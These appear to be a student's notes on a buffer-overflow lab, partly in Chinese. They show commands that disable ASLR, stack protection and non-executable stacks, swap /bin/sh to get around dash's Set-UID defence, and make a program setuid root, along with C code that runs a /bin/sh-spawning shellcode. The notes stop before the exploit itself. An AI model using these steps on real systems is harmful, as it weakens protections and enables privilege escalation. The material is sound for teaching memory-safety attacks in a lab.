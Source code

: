 ## 2.1 Turning off countermeasures

`sudo sysctl -w kernel.randomize_va_space=0`

`gcc -fno-stack-protector example.c`

`gcc -z execstack -o test test.c`或`gcc -z noexecstack -o test test.c`

**For Set-UID program**

dash对Set-UID存在反制措施.

```shell
sudo rm /bin/sh
sudo ln -s /bin/zsh /bin/sh
```

## 2.2 Running Shellcode

```c
#include <stdio.h>

int main()
{
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}

```

```c
/* call_shellcode.c */
/* You can get this program from the lab’s website */
/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
;

int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
}

```

32位Linux系统调用规则,`ebx,ecx,edx,esi,edi`分别传递参数.系统调用编号记录在al中

`gcc -z execstack -o call_shellcode call_shellcode.c`

## 2.3 The vulnerable program

`-fno-stack-protector -z execstack`

Change the program to be a Set-UID program.

```shell
sudo chown root stack
sudo chmod 4755 stack
```

## 2.4 Exploiting the Vulnerability

